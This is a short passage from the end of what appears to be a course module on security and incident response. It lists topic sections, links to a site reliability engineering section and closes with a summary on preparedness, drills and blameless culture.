- Container Security (03)
- Network Security (04)
- Compliance & Regulations (05)
- DevSecOps - Security in Development (06)
- Incident Response - When Security Breaks (07)

**Next Section**: [SRE / Site Reliability Engineering](../10-sre/01-principles)

In SRE, you'll see how Post-Mortem culture and MTTR/MTTD concepts from incident response connect to Error Budgets and SLOs!

---

> **One-Line Summary**: Incidents aren't "if" but "when" - be prepared with plans, drills, and a blameless culture that learns. The best incident response team is the one that never has to activate because prevention worked. The second-best is one that's practiced so much they look calm in the chaos.
